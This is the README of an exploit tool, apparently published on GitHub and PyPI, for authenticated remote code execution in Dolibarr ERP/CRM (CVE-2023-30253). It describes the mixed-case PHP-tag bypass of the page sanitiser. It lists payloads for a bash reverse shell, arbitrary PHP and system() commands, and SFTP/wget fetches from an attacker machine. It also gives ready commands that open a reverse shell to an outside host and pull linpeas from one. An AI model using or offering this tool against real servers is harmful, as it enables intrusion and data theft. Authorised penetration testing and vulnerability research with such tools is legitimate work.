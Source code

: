 # DolibabyPhp

An authenticated RCE exploit for Dolibarr ERP/CRM CVE-2023-30253.

## Installation

You can either install the package from the PyPi repository with `pip` or `git clone` the source directly from GitHub.

```shell
pip install dolibabyphp
dolibabyphp -h
```

## Usage

```txt
Usage: dolibabyphp [OPTIONS] TARGET_URL USERNAME PASSWORD COMMAND [ARGS]...

  This exploit will log into the Dolibarr web server at the specified target URL
  with the provided username and password. After that it will attempt to create
  a web page with a unique name. Once created, it will modify the web page to
  include the custom PHP code bypassing the sanitation check by not using only
  lowercase letters (e.g. PHP or pHp instead of php). There are multiple
  payloads to choose from After the payload has finished running, the web page
  will be deleted.

Options:
  --site-name TEXT       Specify a name to use when creating a site on the
                         target. Defaults to UUIDv4.
  --page-name TEXT       Specify a name to use when creating a page on the
                         target. Defaults to UUIDv4.
  --page-title TEXT      Specify a title for the page. Defaults to the page
                         name.
  --proxy TEXT           Specify a proxy URL for use in all requests.
  -o, --output FILENAME  Specify a file path to output the results of the
                         payload to. Defaults to stdout.
  -h, --help             Show this message and exit.

Commands:
  bash-reverse-shell     Spawns a bash shell on the victim machine and...
  cleanup                Runs the cleanup script on the target for given site...
  custom-php-payload     Specify your own PHP payload to be run on the victim...
  custom-system-payload  Specify your own payload to be run via PHP system()...
  sftp                   SFTPs to the attacker machine, downloads the...
  wget                   Downloads the file at the specified URL to to the...
```

### Examples

```shell
# Reverse shell with Bash
dolibabyphp http://example.com/ username1 pass_word23 bash-reverse-shell --lhost 1.2.3.4 --lport 4444

# Testing with a proxy
dolibabyphp --proxy http://127.0.0.1:8080 http://example.com/ username1 pass_word23 custom-system-payload --payload "uname -a"

# SFTP linpeas to the target, execute it, and save the output to a file on the attacker machine.
dolibabyphp -o ./linpeas-output.txt http://example.com/ username1 pass_word23 sftp --private-key-file ./id_ed25519 sftp://me@1.2.3.4:2222/linpeas.sh ./style.css
```

## Running from source

In order to run the project from the source code, you can either use `rye run` or make sure you add the `src/` directory to the `PYTHONPATH` and then import the module `dolibabyphp` with the `-m` flag.

```shell
# With rye
rye run dolibabyphp

# Without rye
PYTHONPATH="$(pwd)/src/" python -m dolibabyphp
```

